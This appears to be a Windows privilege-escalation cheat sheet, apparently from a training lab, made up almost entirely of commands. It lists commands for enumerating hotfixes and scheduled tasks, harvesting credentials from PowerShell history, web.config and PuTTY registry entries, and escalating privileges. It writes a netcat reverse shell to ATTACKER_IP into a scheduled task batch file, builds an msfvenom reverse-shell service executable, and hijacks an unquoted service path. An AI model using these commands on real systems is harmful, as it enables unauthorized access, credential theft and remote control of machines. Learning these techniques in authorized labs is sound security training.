 # Patches applied
`Get-HotFix`
`Get-Hotfix -Id KB4023834`
# Schedule Tasks
`Get-ScheduledTask -TaskName new-sched-task`
`schtasks /query /tn vulntask /fo list /v`
# Find a file in the computer
`Get-ChildItem -Path C:\ -Include *interesting-fle.txt* -File -Recurse -ErrorAction SilentlyContinue`
# Get Contents of file
`Get-Content "C:\Program Files\interestingfile.txt.txt"`

###### Privilege escalation #########
# Powershell history
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
# IIS Configuration file (passwords for databases)
`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
# Retrieve Credentials from PuTTY 
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

# Scheduled Tasks
List Scheduled tasks 
`schtasks /query /tn vulntask /fo list /v`
Check the file permissions (if we can modify or overwite)
`icacls c:\tasks\schtask.bat`
Modify the file and insert the payload
`echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`
# Run the task
`schtasks /run /tn vulntask`

# Unquoted Service Paths
`Get-WmiObject win32_service | select Name, DisplayName, State, PathName`
*(If we find find a Path to an executable with spaces that is unqoted we win)*
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe`*Generate the service executable*
`move C:\Users\thm-unpriv\reverse-svc2.exe C:\MyPrograms\Disk.exe` Move the reverseshell service to the first unqoted directory that you find in the path.
# Restart the service
`sc stop "disk sorter enterprise"
 sc start "disk sorter enterprise"`

